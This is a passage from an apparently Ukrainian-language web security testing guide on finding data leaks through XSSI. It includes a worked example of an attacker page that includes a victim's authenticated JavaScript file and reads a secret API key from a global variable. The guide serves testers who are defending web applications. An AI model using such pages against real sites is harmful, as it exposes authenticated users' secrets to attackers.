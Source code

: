 ### Визначте, чи може статися витік конфіденційних даних за допомогою JavaScript
Тестери повинні проаналізувати код для таких транспортних засобів на предмет витоку даних через уразливості XSSI:

1. Глобальні змінні
2. Глобальні параметри функції
3. CSV (Comma Separated Values) із крадіжкою цитат
4. Помилки виконання JavaScript
5. З’єднання прототипів за допомогою ```this```

### 1. Витік конфіденційних даних через глобальні змінні
Ключ API зберігається у файлі JavaScript з URI ```https://victim.com/internal/api.js``` на веб-сайті жертви, ```victin.com```, який доступний лише для автентифікованих користувачів. Зловмисник налаштовує веб-сайт, ```attackingwebsite.com```, і використовує тег ```<script>``` для посилання на файл JavaScript.

Ось вміст ```https://victim.com/internal/api.js```:
```
(function() {
  window.secret = "supersecretUserAPIkey";
})();
```

Сайт атаки, ```attackingwebsite.com```, має ```index.html``` із таким кодом:
```
<!DOCTYPE html>
<html>
  <head>
    <title>Leaking data via global variables</title>
  </head>
  <body>
    <h1>Leaking data via global variables</h1>
    <script src="https://victim.com/internal/api.js"></script>
    <div id="result">
    </div>
    <script>
      var div = document.getElementById("result");
      div.innerHTML = "Your secret data <b>" + window.secret + "</b>";
    </script>
  </body>
</html>
```

У цьому прикладі жертва автентифікована за допомогою ```victim.com```. Зловмисник заманює жертву на ```attackingwebsite.com``` за допомогою соціальної інженерії, фішингових електронних листів тощо. Потім браузер жертви отримує ```api.js```, у результаті чого конфіденційні дані просочуються через глобальну змінну JavaScript і відображаються за допомогою ```innerHTML```.

### 2. Витік конфіденційних даних через глобальні параметри функції
Цей приклад схожий на попередній, за винятком того, що в цьому випадку ```attackingwebsite.com``` використовує глобальну функцію JavaScript для вилучення конфіденційних даних шляхом перезапису глобальної функції JavaScript жертви.
